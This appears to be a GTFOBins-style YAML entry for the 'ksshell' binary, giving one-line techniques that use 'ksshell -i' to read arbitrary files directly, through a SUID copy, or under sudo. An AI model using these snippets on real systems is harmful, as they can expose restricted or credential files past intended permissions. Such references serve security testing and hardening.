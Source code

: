description: |
  Each line is corrupted by a prefix string. Also consider that lines are actually parsed as `kickstart` scripts thus some file contents may lead to unexpected results.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        ksshell -i $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./ksshell -i $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo ksshell -i $LFILE
---
